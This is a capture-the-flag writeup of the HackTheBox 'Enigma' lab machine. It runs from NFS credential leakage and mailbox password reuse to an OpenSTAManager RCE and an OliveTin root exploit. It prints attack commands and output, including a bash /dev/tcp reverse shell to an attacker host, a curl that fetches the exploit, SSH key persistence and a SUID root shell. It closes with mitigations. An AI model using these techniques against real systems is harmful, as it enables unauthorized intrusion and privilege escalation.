


# HackTheBox – Enigma Writeup

| | |
|---|---|
| **Platform** | Hack The Box |
| **Room** | Enigma |
| **Target IP** | <TARGET_IP> |
| **Domain** | enigma.htb |
| **Difficulty** | Easy |
| **Category** | Linux / Web (OpenSTAManager) |
| **Date completed** | 2026-11-24 |
| **Author** | d3m0s-null |

> **Disclaimer:** This writeup is for educational purposes only, written after completing the HackTheBox "Enigma" machine in an authorized lab environment. Flags are redacted.

## Summary

Enigma is a Linux box built around an NFS misconfiguration that leaks a new-employee onboarding PDF containing webmail credentials. Reusing those credentials across mailboxes (Kevin → Sarah) exposes further credentials for an OpenSTAManager instance, which is vulnerable to an authenticated RCE (CVE-2026-38751). The resulting `www-data` shell leads to a hardcoded database password in `config.inc.php`, whose user table yields a crackable password hash for the user `haris`, giving a foothold and the user flag.

## Tools Used

- `nmap` – port/service enumeration
- `gobuster` – web directory brute force (no useful results)
- `showmount` / `mount` (NFS)
- Webmail client (Roundcube-style) for Kevin/Sarah mailbox access
- OpenSTAManager RCE PoC for CVE-2026-38751
- `mysql` client
- `hashcat`

## 1. Reconnaissance

Full TCP port scan:

```bash
nmap -sC -sV -p- <TARGET_IP>
```

```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://enigma.htb/
110/tcp   open  pop3     Dovecot pop3d
111/tcp   open  rpcbind  2-4 (RPC #100000)
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
2049/tcp  open  nfs_acl  3 (RPC #100227)
34851/tcp open  mountd   1-3 (RPC #100005)
38275/tcp open  mountd   1-3 (RPC #100005)
41601/tcp open  status   1 (RPC #100024)
46373/tcp open  nlockmgr 1-4 (RPC #100021)
54665/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Findings:**
- Port 80 redirects to `http://enigma.htb/` → added `enigma.htb` to `/etc/hosts`.
- Mail stack present (POP3/IMAP, plain and TLS) via Dovecot → webmail is likely reachable once a vhost/subdomain is found.
- RPC/NFS services exposed (111, 2049, mountd, etc.) → worth checking for exported shares.

## 2. Enumeration

### 2.1 Web directory brute force

```bash
gobuster dir -u 'http://enigma.htb/' -w /usr/share/wordlists/dirb/common.txt --exclude-length 915
```

No useful results — nothing of value turned up on the base vhost with the common wordlist.

### 2.2 NFS shares

Checked for NFS exports instead:

```bash
showmount enigma.htb
# Hosts on enigma.htb: (empty)

showmount -e enigma.htb
```

```
Export list for enigma.htb:
/srv/nfs/onboarding *
```

An exported share, world-mountable (`*`), was found: `/srv/nfs/onboarding`.

### 2.3 Mounting the share

```bash
mkdir -p /mount
mount -t nfs enigma.htb:/srv/nfs/onboarding /mount
ls /mount
```

```
New_Employee_Access.pdf
```

Opened `New_Employee_Access.pdf` in the browser:


**Leaked credentials:**

| Field | Value |
|---|---|
| Webmail URL | `http://mail001.enigma.htb` |
| Username | `kevin` |
| Password | `Enigma2024!` |

Added `mail001.enigma.htb` to `/etc/hosts` as well.

### 3.1 Kevin's mailbox

Logged into the webmail portal at `http://mail001.enigma.htb` with Kevin's credentials from the PDF. Inside, found a welcome email from Sarah (Accounts department):



The email itself contained no credentials, but confirmed `sarah@enigma.htb` as a valid user.

### 3.2 Credential reuse → Sarah's mailbox

Tried logging into Sarah's mailbox using **Kevin's password** (`Enigma2024!`) — password reuse across accounts worked, granting access to `sarah`.

### 3.3 OpenSTAManager credentials

Inside Sarah's mailbox was a reply from IT Support containing admin credentials for an internal support portal:


| Field | Value |
|---|---|
| URL | `http://support_001.enigma.htb` |
| Username | `admin` |
| Password | `Ne3s4rtars78s` |

Added `support_001.enigma.htb` to `/etc/hosts` and logged in. The portal was running **OpenSTAManager v2.9.8**.

## 4. Exploitation — CVE-2026-38751 (OpenSTAManager RCE)

OpenSTAManager 2.9.8 is vulnerable to an authenticated remote code execution, tracked as **CVE-2026-38751**, with a public PoC on GitHub.

```bash
./openstamanager-rce-exploit \
  --url http://support_001.enigma.htb \
  -U admin -P Ne3s4rtars78s \
  --lhost <ATTACKER_IP> --lport 4444
```

```
[ OpenSTAManager RCE Exploit : ]

Target: http://support_001.enigma.htb/
[*] Step 1: Login...
[+] Login successful: admin
[*] Step 2: Enable updates...
[+] Updates enabled
[*] Step 3: Create ZIP...
[*] Created in-memory ZIP file
[*] Shell location: /modules/shell/shell.php
[*] Step 4: Upload...
[*] Upload status: 500 Internal Server Error
[+] Upload successful
[*] Step 5: Verify...
[+] Vulnerability confirmed!
[+] Shell: http://support_001.enigma.htb/modules/shell/shell.php
[+] Test: http://support_001.enigma.htb/modules/shell/shell.php?c=whoami
[*] Listening on <ATTACKER_IP>:4444...
[*] Trying payload: bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'
[-] Payload failed: operation timed out
[*] Trying payload: python3 -c '...reverse shell...'
[-] Payload failed: operation timed out
[*] Trying payload: python -c '...reverse shell...'
[+] Payload sent successfully. Waiting for connection...
[+] Connection received from <TARGET_IP>:36948
[*] Reverse shell established.
```

The PoC logged in as admin, abused OpenSTAManager's update/plugin mechanism to upload a PHP webshell (`modules/shell/shell.php`), then used it to trigger a `python` reverse shell back to the attacking host (the `bash` and `python3` one-liners timed out, but the `python` one succeeded).

Stabilized the shell:

```bash
script /dev/null -c bash
```

```
www-data@enigma:~/html/openstamanager$
```

## 5. Privilege Escalation — www-data → haris

### 5.1 Enumerating local users

```bash
cat /etc/passwd
```

Of the listed accounts, `haris` was the only non-service user with a real login shell (`/bin/bash`), making it the next target:

```
haris:x:1000:1000:,,,:/home/haris:/bin/bash
kevin:x:1001:1001::/home/kevin:/usr/sbin/nologin
sarah:x:1002:1002::/home/sarah:/usr/sbin/nologin
it:x:1003:1003::/home/it:/usr/sbin/nologin
```

### 5.2 Database credentials from application config

```bash
cat config.inc.php
```

```php
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```

### 5.3 Dumping application users

```bash
mysql -u brollin -p'Fri3nds@9099'
```

```sql
show databases;
use openstamanager;
show tables;
select * from zz_users;
```

```
+----+----------+--------------------------------------------------------------+------------------+
| id | username | password                                                     | email            |
+----+----------+--------------------------------------------------------------+------------------+
|  1 | admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu | admin@enigma.htb |
|  2 | haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC | haris@enigma.htb |
+----+----------+--------------------------------------------------------------+------------------+
```

The `haris` row gives a bcrypt hash (`$2y$...`) tied to the OS account of the same name.

### 5.4 Cracking the hash

```bash
hashcat -m 3200 '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC' /usr/share/wordlists/rockyou.txt
```

```
$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC:bestfriends
```

Cracked password: `bestfriends`

### 5.5 Switching user and reading the flag

```bash
su haris
Password: bestfriends
```

```
haris@enigma:/var/www/html/openstamanager/modules/shell$ cd /home/haris
haris@enigma://home/haris$ ls
mail  user.txt
haris@enigma://home/haris$ cat user.txt
```

**user.txt:** `[REDACTED]`

(Note: the OpenSTAManager password for `admin` reused as the site-wide pattern did not apply here — `haris`'s password was independently crackable from rockyou.txt, suggesting weak/reused personal password hygiene rather than a shared company password.)


## 6. Privilege Escalation — haris → root

### 6.1 Persistent access via SSH key

With `haris`'s password in hand, generated a local SSH keypair and dropped the public key onto the box to get a stable, authenticated shell instead of relying on the webshell/`su`:

```bash
ssh-keygen -t ed25519 -f ./haris_key -N ""
```

From the `www-data` → `su haris` shell:

```bash
mkdir -p /home/haris/.ssh
chmod 700 /home/haris/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKltxJ/HeeqJuclL9vw1MwD3MNUlY/lfVCDHArZAk2/O attacker@kali" >> /home/haris/.ssh/authorized_keys
chmod 600 /home/haris/.ssh/authorized_keys
```

From Kali:

```bash
ssh -i haris_key haris@<TARGET_IP>
```

```
Last login: Tue Nov 24 12:03:26 2026 from <ATTACKER_IP>
haris@enigma:~$
```
### 6.2 Finding a hidden local service

Enumerated listening sockets and found a port not shown in the original `nmap` scan (bound to loopback only):

```bash
netstat -ano | grep 1337
```

```
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      off (0.00/0/0)
```

```bash
curl http://127.0.0.1:1337
```

The response revealed an **OliveTin** instance (a web UI for running predefined shell commands), only reachable from localhost — explaining why it never showed up in the external port scan.

### 6.3 CVE-2026-27626 — OliveTin RCE

OliveTin is vulnerable to **CVE-2026-27626**, with a public PoC: [`0xh7ml/CVE-2026-27626-PoC`](https://github.com/0xh7ml/CVE-2026-27626-PoC).

Downloaded the PoC on Kali and served it over HTTP:

```bash
python3 -m http.server 8000
```

Pulled it onto the target through the SSH session (no direct internet egress from the box's web app, but outbound `curl` to the attacker host worked):

```bash
curl http://<ATTACKER_IP>:8000/CVE-2026.27626.py -o /tmp/exploit.py
```

Confirmed command execution via the OliveTin service — the predefined action triggered a `mysqldump` job, but the PoC's injected command (`id` / `whoami`) still executed as **root**, alongside the expected tool error/usage output from the hijacked action:

```bash
python3 /tmp/exploit.py -u http://127.0.0.1/ -p 1337 -x id
```

```
[+] Execution ID: c7664068-c68f-46b2-98c5-f00e63bc8fbf
======================================================================
Command Output
======================================================================
exit status 2

Usage: mysqldump [OPTIONS] database [tables]
...
uid=0(root) gid=0(root) groups=0(root)
sh: 1: cannot create /opt/backups/backup.sql: Directory nonexistent
======================================================================
```


```bash
python3 /tmp/exploit.py -u http://127.0.0.1/ -p 1337 -x whoami
```

```
root
```

Confirmed: code execution via OliveTin runs as **root**.

### 6.4 Dropping a SUID root shell

```bash
python3 /tmp/exploit.py -u http://127.0.0.1/ -p 1337 -x "cp /bin/bash /tmp/rootbash && chmod 6755 /tmp/rootbash"
```

```bash
/tmp/rootbash -p
```

```
rootbash-5.2# id
uid=1000(haris) gid=1000(haris) euid=0(root) egid=0(root) groups=0(root),100(users),1000(haris)
rootbash-5.2# cd /root
rootbash-5.2# cat root.txt
[REDACTED]
```

Full root access achieved.


## 7. Flags

| Flag | Value |
|---|---|
| user.txt | `[REDACTED]` |
| root.txt | `[REDACTED]` |

> ⚠️ Flags are redacted per HackTheBox's community guidelines on sharing flags.

## Lessons Learned

- World-exported NFS shares (`*`) can leak sensitive internal documents (onboarding PDFs with live credentials) with zero authentication.
- Password reuse across separate mailboxes (Kevin → Sarah) turned one leaked credential into two compromised accounts.
- Internal admin portal credentials sent over email, combined with an outdated, vulnerable application version (OpenSTAManager 2.9.8, CVE-2026-38751), gave a direct path to remote code execution.
- Database credentials hardcoded in plaintext config files (`config.inc.php`) are a common pivot point once a web shell is obtained.
- Application-level password hashes are still crackable with standard wordlists when users choose weak/common passwords (`bestfriends`).
- Services bound to `127.0.0.1` are invisible to a remote port scan but still reachable (and exploitable) once you have a local shell — always re-run service discovery (`netstat`/`ss`) after landing a foothold.
- An internal admin tool (OliveTin) meant to safely expose "predefined shell commands" became a direct root-level command execution primitive once CVE-2026-27626 was applied, because the service itself ran as root.

## Mitigations

- Restrict NFS exports to specific trusted hosts/IPs, not `*`, and never place credential-bearing documents on shares without authentication.
- Enforce unique passwords per account/service; deploy a password manager and ban reuse via policy/tooling.
- Avoid emailing plaintext credentials; use a secrets vault or forced first-login reset with expiry.
- Patch/upgrade OpenSTAManager past the version affected by CVE-2026-38751, and restrict the admin panel to internal/VPN access only.
- Store database credentials outside of web-root config files where possible (environment variables, secrets manager) and restrict file permissions.
- Enforce strong password policy / MFA for local Linux accounts to resist offline hash cracking.
- Patch OliveTin past the version affected by CVE-2026-27626, and never run it (or any admin-automation tool) as root — run it as a dedicated low-privilege service account with tightly scoped sudo rules for only the specific commands it needs.
- Don't rely on "it's only bound to localhost" as a security boundary once an attacker can reach a local shell on the host.

## References

- CVE-2026-38751 — OpenSTAManager authenticated RCE
- OpenSTAManager RCE Exploit PoC (GitHub)
- CVE-2026-27626 — OliveTin RCE
- [0xh7ml/CVE-2026-27626-PoC (GitHub)](https://github.com/0xh7ml/CVE-2026-27626-PoC)
